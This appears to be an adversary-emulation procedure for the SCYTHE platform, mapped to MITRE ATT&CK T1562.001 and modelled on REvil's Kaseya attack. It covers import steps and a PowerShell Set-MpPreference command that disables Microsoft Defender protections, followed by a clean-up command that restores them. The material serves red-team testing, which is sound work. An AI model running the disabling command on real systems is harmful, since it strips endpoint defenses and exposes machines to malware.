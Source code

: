 # T1562.001 Impair Defenses: Disable or Modify Tools

This procedure is based on Cyber Threat Intelligence from https://news.sophos.com/en-us/2021/07/04/independence-day-revil-uses-supply-chain-exploit-to-attack-hundreds-of-businesses/

## Import the Compound Action into SCYTHE
1. From the SCYTHE GUI, click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Manual Emulation
From an administrative cmd.exe:
- ```C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend```

### Manual Clean Up
```C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Set-MpPreference -DisableRealtimeMonitoring $false -DisableIntrusionPreventionSystem $false -DisableIOAVProtection $false -DisableScriptScanning $false -EnableControlledFolderAccess Enabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Advanced -SubmitSamplesConsent SendAllSamples```